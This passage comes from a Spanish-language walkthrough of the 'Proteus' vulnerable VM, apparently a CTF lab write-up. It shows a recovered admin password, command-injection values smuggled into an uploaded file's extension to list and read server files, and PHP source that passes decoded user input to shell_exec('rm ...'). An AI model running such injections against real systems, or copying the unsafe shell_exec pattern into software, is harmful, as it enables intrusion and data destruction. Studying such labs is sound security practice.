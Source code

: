```
...
```

## Contraseña de *malwareadm*

No sé si esta es la forma que el creador de la máquina virtual ha previsto para encontrar la clave... pero bueno, aquí la hemos obtenido en codificación BASE64. Si la ponemos en claro, tenemos:

+ **Usuario**: *malwareadm*

+ **Contraseña**: *q-L@X!{l_'8|)o?Q+TapahQ<_*

![malwareadm logged in]({{ site.url }}/assets/proteus_malwareadm_loggedin.png "malwareadm logged in")

Y comprobamos que la página *samples* ahora nos muestra una nueva opción **DELETE** que nos permite borrar archivos previamente subidos.

Este borrado se realiza mediante un link en el que se indica el fichero a borrar utilizando la codificación BASE64 del nombre de archivo:

![Enlace para borrar archivo]({{ site.url }}/assets/proteus_delete_sample_code.png "Enlace para borrar archivo")

Si borramos alguno de los archivos:

![Archivo borrado]({{ site.url }}/assets/proteus_sample_deleted.png "Archivo borrado")

Recordemos que habíamos encontrado que existe el archivo *route.delete.php*. Como el parámetro que se utiliza para borrar un archivo es el nombre de dicho archivo en codificación BASE64, podemos pensar que es posible realizar algún tipo de inyección de código. En lugar de hacer pruebas a ciegas, vamos a ver el contenido de dicho archivo para comprobar si es posible.

Para obtener el código de dicha página, subimos un archivo y modificamos la extensión:

```
Usamos como extensión .elf&find $(dirname $(dirname `pwd`)) -name *delete*

/home/malwareadm/sites/proteus_site/web/templates/delete.twig.html
/home/malwareadm/sites/proteus_site/web/routes/route.delete.php
```

Vemos que hay dos ficheros... mostramos el contenido de ambos.

```
Usamos como extensión .elf&for d in $(find $(dirname $(dirname `pwd`)) -name *delete*); do strings $d; done

...
<?php
  $app->get('/delete/:filename/?',
          $work = function ($filename) use ($app) {
              if (isset($_SESSION['name'])) {
                $message = "Logged in as: " . $_SESSION['name'];
                if (isset($_SESSION['admin'])) {
                  $admin = 1;
                } else {
                  $admin = 0;
                }
              } else {
                $app->redirect(conf::INSTALLED_DIRECTORY);
              }
              //get all submitted files
              foreach(array_diff(scandir(Conf::FILE_PATH), array('.', '..')) as $file) {
                if (strpos(base64_decode($filename), $file) !== false) {
                  shell_exec('rm '. Conf::FILE_PATH . base64_decode($filename));
                  $message = "Successfully deleted " . Conf::FILE_PATH . base64_decode($filename);
                }
              }
```